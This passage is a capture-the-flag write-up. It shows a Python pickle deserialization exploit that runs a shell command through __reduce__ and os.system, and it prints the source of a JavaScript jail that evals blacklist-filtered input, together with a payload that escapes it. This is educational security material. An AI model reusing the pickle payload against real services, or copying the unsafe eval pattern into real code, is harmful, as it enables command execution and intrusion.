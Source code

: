 pickle.dump(MYClass(), outfile)
try 2
after some research i found the reduce function which was used in a lot of ctfs, i created a class and redefined the __reduce__ method and it WORKS XD.
exploit:

class MYClass():
    def __reduce__(self):
        command = ('cat flag.txt')
        return os.system, (command,)

import pickle

filename = 'dump'
outfile = open(filename,'wb')

pickle.dump(MYClass(), outfile)
flag : shellmates{lEt_thE_piCkl3_gaMeS_BegiN!}

JsandboxS
Just a casual JS jail. Retrieve the flag and get out of this jail.
Author : yh_0x7

In this challenge they give us a js code which has a generator function "func" which prints the flag, and a function that takes input and validates it with a regex filter then passes it to the eval function.

if we read the regex we can see that our goal is to call the func function without parenthesis, if we do some research we can find a lot a methods for example in our case we used : [...{[Symbol.iterator]:func}] which did the trick.

#!/usr/bin/env node
var fs = require('fs');

const black_list = "0123456789!\"#$%&'()*+-/;<>?@\\^|~\t\n\r\x0b\x0c "

function * func(){
    fs.readFile('./.passwd', 'utf8', function(err, data){
        console.log(data);
    });
}

const readline = require("readline");
const interface = readline.createInterface({
        input: process.stdin,
        output: process.stdout,
    });

interface.question(
    "Welcome to JsandboxS, I gave you a secret phone, you have use it to escape \n",
    function (input) {
        interface.close();
        if ( !black_list.split("").some(x => input.includes(x)) )
        {
            try 
            {
                eval(input)
            }
            catch(e)
            {
                    console.log('you can\'t break the walls :(')
            }
        }
        else
        {
            console.log('you still in jail...you can\'t escape like that')
        }
    }
